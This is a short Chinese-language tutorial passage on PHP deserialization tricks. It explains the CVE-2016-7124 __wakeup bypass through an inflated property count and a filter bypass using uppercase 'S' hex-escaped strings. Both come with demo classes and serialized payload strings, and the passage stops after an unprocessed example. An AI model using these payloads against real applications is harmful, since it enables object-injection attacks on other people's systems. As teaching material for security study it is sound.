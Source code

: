 ### 绕过__wakeup(CVE-2016-7124)

```
版本：

​ PHP5 < 5.6.25

​ PHP7 < 7.0.10
```

```php
利用方式：序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function __wakeup(){
        $this->a='666';
    }
    public function  __destruct(){
        echo $this->a;
    }
}

```

```php
如果执行unserialize('O:4:"test":1:{s:1:"a";s:3:"abc";}');输出结果为666

而把对象属性个数的值增大执行unserialize('O:4:"test":2:{s:1:"a";s:3:"abc";}');输出结果为abc
```

### 16进制绕过字符的过滤

```php
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
可以写成
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
表示字符类型的s大写时，会被当成16进制解析。

```

```php
<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 666;
    }
}
function check($data){
    if(stristr($data, 'username')!==False){
        echo("你绕不过！！".PHP_EOL);
    }
    else{
        return $data;
    }
}
// 未作处理前
$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';
$a = check($a);
unserialize($a);
```